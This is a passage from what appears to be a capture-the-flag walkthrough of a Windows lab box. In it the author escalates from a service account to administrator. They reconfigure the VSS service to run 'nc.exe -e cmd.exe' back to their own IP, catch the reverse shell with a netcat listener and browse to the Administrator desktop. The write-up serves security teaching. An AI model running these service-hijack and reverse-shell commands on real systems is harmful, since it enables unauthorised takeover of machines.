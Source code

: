 Finally I got to the VSS service:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe query VSS
SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0

*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe config VSS binpath="C:\Users\svc-printer\desktop\nc.exe -e cmd.exe 10.10.15.39 4444"
[SC] ChangeServiceConfig SUCCESS
```

Now checking services again we see it's path now uses my payload:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> services
Path                                                              Privileges Service          
----                                                              ---------- -------          
<SNIP>
C:\Users\svc-printer\desktop\nc.exe -e cmd.exe 10.10.15.39 4444   True       VSS              
<SNIP>
```

With that in place we can start a netcat listener waiting on Kali to catch the reverse shell. Then we start the service on the box:

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe start VSS
```

## Administrator Shell

Switching to Kali we have our shell connected as local administrator on the box:

```text
┌──(root💀kali)-[~/htb/return]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.108] 63661
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

Now we can get our root flag:

```text
C:\Windows\system32>cd c:\users
c:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E
 Directory of c:\Users
09/27/2021  04:40 AM    <DIR>          Administrator
05/26/2021  01:50 AM    <DIR>          Public
05/26/2021  01:51 AM    <DIR>          svc-printer
               0 File(s)              0 bytes
               5 Dir(s)   8,419,307,520 bytes free

c:\Users>cd administrator
c:\Users\Administrator>cd desktop
c:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E
 Directory of c:\Users\Administrator\Desktop
```